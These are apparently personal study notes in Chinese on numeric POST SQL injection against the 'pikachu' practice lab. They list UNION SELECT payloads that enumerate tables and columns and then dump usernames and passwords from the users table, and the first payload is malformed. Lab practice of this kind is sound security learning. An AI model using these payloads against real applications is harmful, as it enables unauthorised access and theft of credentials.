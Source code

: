 ##### 数字型SQL注入 （POST）
#### 2024.1.4


//获取数据库名称
 union SELECT COLUMN_NAME FROM information_schema.columns.TABLE_NAME
 
//获取pikachu数据库的表名
union select 1,group_concat(table_name) from information_schema.tables where table_schema = 'pikachu'

//获取users表的列名
union select 1,group_concat(COLUMN_NAME) from information_schema.columns where table_schema = 'pikachu' and table_name = 'users'

//获取users表中的username和password数据
union select username,password from pikachu.users 
